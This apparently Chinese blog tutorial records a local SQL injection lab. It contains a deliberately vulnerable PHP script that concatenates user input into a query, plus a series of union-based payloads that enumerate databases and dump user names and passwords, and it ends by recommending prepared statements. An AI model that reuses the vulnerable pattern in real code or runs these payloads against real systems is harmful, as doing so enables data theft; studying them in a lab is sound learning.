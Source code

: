 ```yaml
---
layout: article
title: SQL injection 学习
date: 2017-05-22 02:37:43
categories: 安全
tags:
- 网络安全
- sql injection
---
```


在国哥的安排下，对着 kali渗透测试之 SQL injeciton 视频教程一顿撸（虽然没什么卵用），记录下来自己的一些实验过程和经历。

## 提前准备

- 本地的 lemp 环境，搭建可参考：[Centos 7 Nginx + php + mysql Web服务器搭建](https://wanghaichi.github.io/2017/01/21/lempServer/) 和 [Unbuntu16.04 Nginx + php + mysql Web服务器搭建](https://wanghaichi.github.io/2017/03/10/lemp-Ubantu/) 当然 xampp 也是极好的。
- 用于攻击的 php 脚本和数据库，下面会给出

## 编写脚本

找个能够访问的地方，编写如下 php 脚本
```php
<html>
	<head></head>
	<body>
		<form action="./login.php" method="post">
			ID<input name="id" type="text"><br/>
			<input type="submit" value="提交">
		</form>
		<div>
		<p>
			<?php
				if($_POST['id']){
					$connection = new mysqli("localhost", "root", "hhxxttxs", "test");
					if($connection->connect_errno){
						 echo "Failed to connect to MySQL: (" . $connection->connect_errno . ") " . $connection->connect_error;
					}
					$id = $_POST['id'];
					// echo $name."<br/>".$password."<br/>";
					$sql = "SELECT name, password FROM `user` WHERE `id` = '". $id . "'";
					echo $sql."<br/>";
					$res = $connection->query($sql);
					// var_dump($res);
					while($row = $res->fetch_assoc() ){
						echo "姓名: ". $row['name'] . "<br/>";
						echo "密码: ". $row['password'] . "<br/>";
					}
				}
			?>
		</p>
		</div>
	</body>
</html>
```
在本地新建数据库 `test`，新建 user 表

![Picture](/images/2017-5-22-10-45.png)

## SQL injection 简介

### 原理

> 服务器端程序将用户输入参数作为参数作为查询条件，直接拼接SQL语句，并将查询结果返回给客户端浏览器

对于一般处理数据库查询的语句，客户端会将用户输入的参数使用`''`包裹之后，形成 SQL 查询字符串，交给 SQL 服务去处理。对于没有进过数据处理的脚本，很容易产生 SQL 注入。

我们可以手动输入 ` ' " % ( ) `这些在 SQL 语法中有特殊含义的字符，进行 SQL 注入攻击。

### 用户登录判断
  - `SELECT * FROM users WHERE user='uname' AND password='pass'`
  - `SELECT * FROM users WHERE user='name' AND password='' OR ''=''`

通过以上语句可以跳过用户验证，因为第二个 SQL 语句恒为真。

### 手动漏洞挖掘--SQL注入

注意下面的所有事例中 + 表示空格，不加空格 `--` 起不了注释的作用。

#### 基于报错的检测方法

- `' " % ( )`

#### 基于布尔的检测

- `1' and '1'='1`   /   `1' and '1`
- `1' and '1'='1`   /   `1' and '0`

#### 表列数 / 显示信息位于哪一列

- `' order by 9--+`
- select * 时表字段数=查询字段数

可以通过这个方法判断当前表中有多少列，但需要脚本中的 SQL 语句使用 `*` 作为查询域

#### 联合查询

- `' union select 1,2--+`

![Picture](/images/2017-5-22-10-35.png)

- `' union all select database(),2--+` // 显示数据库名

![Picture](/images/2017-5-22-10-36.png)

- `' union all select user(), version()--+` // 显示用户，数据库版本

![Picture](/images/2017-5-22-11-02.png)

- `' union select database(), substring_index(USER(),"@",1)--`

![Picture](/images/2017-5-22-11-04.png);

#### 全局函数

- `@@datadir @@hostname @@VERSION @@version_compile_os--+`

![Picture](/images/2017-5-22-11-09.png)

![Picture](/images/2017-5-22-11-10.png)

![Picture](/images/2017-5-22-11-11.png)

#### 当前库

- `database()`

#### ASCII转字符

- `char()`

char 函数可以将 ascii 码转换成对应的字符。

#### 连接字符串

- `CONCAT_WS(CHAR(32,58,32),user(),database(),version())`

![Picture](/images/2017-5-22-11-14.png)

这里使用 CONCAT_WS 函数，将三个数据库信息拼接在一起，同时使用 ` : ` 进行分割。

#### 计算哈希

- `md5()`

可以使用目标服务器进行大规模的数据计算

#### Mysql 数据结构

- information_schema

#### 所有库所有表 / 统计库中表的数量

- `' union select table_name, table_schema from information_schema.tables--+`

![Picture](/images/2017-5-22-11-17.png)

- `' union select table_schema,count(*) FROM information_schema.tables group by table_schema --`

![Picture](/images/2017-5-22-11-23.png)

#### test库中的表名

- `' union select table_name, table_schema from information_schema.tables where table_schema='test'--+`

![Picture](/images/2017-5-22-11-26.png)

#### Users表中的所有列（user_id first_name last_name user password avatar）

- `' union select table_name, column_name from information_schema.columns where table_schema='test' and table_name='user'--+`

![Picture](/images/2017-5-22-11-27.png)

可以看到 user 表中的所有列名都被列出来了！

#### 查询 user password 列的内容

- `' union select name, password from test.user--+`

![Picture](/images/2017-5-22-11-29.png)

- `' union select null, concat(name, 0x3a, password) from user--+`

![Picture](/images/2017-5-22-11-30.png)

## 小结

可以看到一个简单的 SQL injection 漏洞，几乎可以攻击所有的数据库。更有甚者还可以直接攻击服务器（下回说）。因此在编写代码时一定要注意 SQL 语句的过滤。

目前看来，所有的过滤手段都是不可靠的，都有方法可以通过截断、欺骗等进行攻击。因此正确的操作应该是用 SQL 预编译，进行参数绑定，这样可以保证 SQL 的查询语句不被篡改。具体方法可以参见 [mysqli Prepared Statements](http://php.net/manual/zh/mysqli.quickstart.prepared-statements.php)
